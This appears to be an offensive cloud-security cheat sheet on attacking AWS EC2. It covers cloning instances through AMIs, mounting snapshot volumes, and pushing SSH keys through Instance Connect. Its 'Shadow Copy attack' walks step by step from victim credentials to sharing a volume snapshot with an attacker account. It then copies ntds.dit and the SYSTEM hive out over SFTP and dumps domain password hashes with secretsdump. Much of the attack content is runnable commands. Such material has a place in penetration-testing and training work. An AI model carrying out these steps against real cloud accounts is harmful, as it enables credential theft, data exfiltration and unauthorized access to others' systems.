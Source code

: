 # AWS - Service - EC2

* [dufflebag](https://labs.bishopfox.com/dufflebag) - Find secrets that are accidentally exposed via Amazon EBS's "public" mode


## Copy EC2 using AMI Image

First you need to extract data about the current instances and their AMI/security groups/subnet : `aws ec2 describe-images --region eu-west-1`

```powershell
# create a new image for the instance-id
$ aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1  

# add key to AWS
$ aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1  

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
$ aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance 
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1 

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1 
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```


## Mount EBS volume to EC2 Linux

:warning: EBS snapshots are block-level incremental, which means that every snapshot only copies the blocks (or areas) in the volume that had been changed since the last snapshot. To restore your data, you need to create a new EBS volume from one of your EBS snapshots. The new volume will be a duplicate of the initial EBS volume on which the snapshot was taken.

1. Head over to EC2 –> Volumes and create a new volume of your preferred size and type.
2. Select the created volume, right click and select the "attach volume" option.
3. Select the instance from the instance text box as shown below : `attach ebs volume`
    ```powershell
    aws ec2 create-volume –snapshot-id snapshot_id --availability-zone zone
    aws ec2 attach-volume –-volume-id volume_id –-instance-id instance_id --device device
    ```
4. Now, login to your ec2 instance and list the available disks using the following command : `lsblk`
5. Check if the volume has any data using the following command : `sudo file -s /dev/xvdf`
6. Format the volume to ext4 filesystem  using the following command : `sudo mkfs -t ext4 /dev/xvdf`
7. Create a directory of your choice to mount our new ext4 volume. I am using the name “newvolume” : `sudo mkdir /newvolume`
8. Mount the volume to "newvolume" directory using the following command : `sudo mount /dev/xvdf /newvolume/`
9. cd into newvolume directory and check the disk space for confirming the volume mount : `cd /newvolume; df -h .`


## Shadow Copy attack

**Requirements**:

* EC2:CreateSnapshot
* [Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy)

**Exploit**:

1. Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions
2. Run `"Describe-Instances"` and show in list for attacker to select
3. Run `"Create-Snapshot"` on volume of selected instance
4. Run `"modify-snapshot-attribute"` on new snapshot to set `"createVolumePermission"` to attacker AWS Account
5. Load AWS CLI with Attacker Credentials
6. Run `"run-instance"` command to create new linux ec2 with our stolen snapshot
7. Ssh run `"sudo mkdir /windows"`
8. Ssh run `"sudo mount /dev/xvdf1 /windows/"`
9. Ssh run `"sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"`
10. Ssh run `"sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"`
11. Ssh run `"sudo chown ec2-user:ec2-user /home/ec2-user/*"`
12. SFTP get `"/home/ec2-user/SYSTEM ./SYSTEM"`
13. SFTP get `"/home/ec2-user/ntds.dit ./ntds.dit"`
14. locally run `"secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets'`, expects secretsdump to be on path


## Access Snapshots 

1. Get the `owner-id`
    ```powershell
    $ aws --profile flaws sts get-caller-identity
    "Account": "XXXX26262029",
    ```
2. List snapshots
    ```powershell
    $ aws --profile flaws ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2
    "SnapshotId": "snap-XXXX342abd1bdcb89",
    ```
3. Create a volume using the previously obtained `snapshotId`
    ```powershell
    $ aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
    ```
4. In AWS console, deploy a new EC2 Ubuntu based, attach the volume and then mount it on the machine.
    ```ps1
    $ ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com
    $ lsblk
    $ sudo file -s /dev/xvda1
    $ sudo mount /dev/xvda1 /mnt
    ```


## Instance Connect

Push an SSH key to EC2 instance

```powershell
# https://aws.amazon.com/fr/blogs/compute/new-using-amazon-ec2-instance-connect-for-ssh-access-to-your-ec2-instances/
$ aws ec2 describe-instances --profile uploadcreds --region eu-west-1 | jq ".[][].Instances | .[] | {InstanceId, KeyName, State}"
$ aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id INSTANCE --availability-zone us-east-1d --instance-os-user ubuntu --ssh-public-key file://shortkey.pub --profile uploadcreds
```


## References

* [How to Attach and Mount an EBS volume to EC2 Linux Instance - AUGUST 17, 2016](https://devopscube.com/mount-ebs-volume-ec2-instance/)